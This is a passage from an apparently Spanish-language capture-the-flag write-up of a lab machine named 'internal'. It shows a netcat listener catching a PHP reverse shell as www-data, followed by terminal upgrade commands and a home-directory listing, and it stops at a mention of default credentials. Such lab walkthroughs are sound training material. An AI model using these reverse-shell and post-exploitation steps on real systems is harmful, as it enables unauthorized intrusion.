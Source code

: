 Vamos a ponernos en escucha en el puerto que indicaste

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora vamos a ocasionar el `error` para que nos llegue la reverse php-reverse-shell

![](/assets/images/try-writeup-internal/Web11.png)

Al darle click nos llega la `shell`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.28.226] from (UNKNOWN) [10.10.182.2] 52094
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:34:36 up 47 min,  0 users,  load average: 0.00, 0.50, 0.81
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

## Shell www-data

Para que puedas hacer `CTRL+C` debes de hacer esto

```bash
script /dev/null -c bash
CTRL+Z
stty raw echo; fg
reset xterm
ENTER
export TERM=xterm
export SHELL=bash
```

Vemos a otro usuario

```bash
www-data@internal:/home$ ls -la
total 12
drwxr-xr-x  3 root      root      4096 Aug  3  2020 .
drwxr-xr-x 24 root      root      4096 Aug  3  2020 ..
drwx------  7 aubreanna aubreanna 4096 Aug  3  2020 aubreanna
www-data@internal:/home$ 
```

Aqui podemos encontrar credenciales por defecto
